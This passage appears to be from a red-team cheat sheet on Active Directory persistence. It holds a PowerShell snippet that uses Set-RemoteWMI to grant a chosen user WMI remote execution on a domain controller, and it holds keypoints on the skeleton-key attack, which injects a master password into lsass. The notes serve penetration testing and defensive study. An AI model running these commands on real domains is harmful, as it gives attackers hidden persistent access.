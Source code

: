 <img src="https://github.com/jomivz/jomivz.github.io/blob/master/assets/images/ad-persist-sd-WMI-set-wmipersist.png" width="500">

```powershell
# grant WMI remote execution to a user
Set-RemoteWMI -UserName $ztarg_user_name -ComputerName $zdom_dc_name -namespace 'root\cimv2' -Verbose

# remove the grant of WMI remote execution
Set-RemoteWMI -UserName $ztarg_user_name -ComputerName $zdom_dc_name -namespace 'root\cimv2' -Remove -Verbose
```

🕮 READ MORE at :
- [hacktricks/security-descriptors](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/security-descriptors)
- [edemilliere / Invoke-ADSDPropagation](https://github.com/edemilliere/ADSI/blob/master/Invoke-ADSDPropagation.ps1)


## <a name='skeleton-key'></a>skeleton-key

🔑 KEYPOINTS :
- hack that injects a master password into the lsass process on a DC
- enables the adversary to authenticate as any user without password
- does not persist to reboot
